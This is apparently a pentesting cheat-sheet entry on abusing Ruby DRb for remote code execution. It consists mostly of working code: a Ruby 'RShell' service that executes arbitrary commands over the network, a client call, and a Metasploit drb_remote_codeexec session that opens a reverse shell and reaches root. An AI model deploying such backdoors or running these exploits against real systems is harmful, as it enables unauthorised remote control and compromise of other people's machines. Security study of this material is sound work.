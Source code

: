 # RCE as a Service
DRb allows Ruby programs to communicate with each other on the same machine or over a network. DRb uses remote method invocation (RMI) to pass commands and data between processes.

## RCE Service 
```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```

The `drb` lib supports ACL to prevent/allow particular IP addresses. ex.

```ruby
#!/usr/bin/env ruby
require 'drb'

class RShell
   def exec(cmd)
     `#{cmd}`
   end
end

# Access List
acl = ACL.new(%w{deny all
                allow localhost
                allow 192.168.1.*})
DRb.install_acl(acl)
DRb.start_service("druby://0.0.0.0:8080", RShell.new)
DRb.thread.join
```


## Client 

```ruby
rshell = DRbObject.new_with_uri("druby://192.168.0.13:8080")
puts rshell.exec "id"
```

Or you can use metasploit module to get an elegant shell! 

```bash
msf > use exploit/linux/misc/drb_remote_codeexec 
msf exploit(drb_remote_codeexec) > set URI druby://192.168.0.13:8080
uri => druby://192.168.0.13:8080
msf exploit(drb_remote_codeexec) > exploit 

[*] Started reverse double handler
[*] trying to exploit instance_eval
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo UAR3ld0Uqnc03yNy;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "UAR3ld0Uqnc03yNy\r\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (192.168.0.18:4444 -> 192.168.0.13:57811) at 2015-12-24 01:11:30 +0300

pwd
/root
id
uid=0(root) gid=0(root) groups=0(root)
```

